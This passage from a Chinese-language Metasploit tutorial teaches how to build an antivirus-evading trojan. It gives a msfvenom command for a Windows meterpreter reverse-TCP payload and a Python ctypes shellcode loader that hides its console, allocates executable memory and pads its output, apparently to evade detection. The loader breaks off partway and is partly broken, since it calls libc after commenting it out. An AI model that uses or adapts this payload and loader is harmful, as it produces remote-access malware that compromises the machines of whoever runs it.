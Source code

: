 ![autopwn](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片19.png)  
当然这个模块的攻击是不准确的，而且成功率也不高。可以适当性的把每个模块的攻击时间间隔加大，可提高准确性。
### 4.3msf+python制作免杀木马
木马免杀方法很多，有编译，加壳，加花（修改特征码）但是经过实践发现：脚本语言嵌入恶意荷载并且编译成exe进行免杀，效果较好且制作比较方便，因为python比较流行，就讲讲msf+python实现免杀：  
*准备环境（python2.6+，pywin32，pyinstaller)*
利用msfvenom生成恶意荷载：（新版msf中msfvenom替代了msfpayload和msfencode）  
msfvenom -p windows/meterpreter/reverse_tcp LPORT=(自定义) LHOST=(自定义) -f py >输出路径  
1.将生成的恶意荷载代码放入下面代码中  
2.替换下面代码的“恶意荷载”然后保存为.py格式
 
```
from ctypes import *
import ctypes
恶意荷载
# libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr:
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)

whnd = ctypes.windll.kernel32.GetConsoleWindow()
if whnd != 0:
    if 666 == 666:
        ctypes.windll.user32.ShowWindow(whnd, 0)
        ctypes.windll.kernel32.CloseHandle(whnd)
print ".................................." * 666
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
```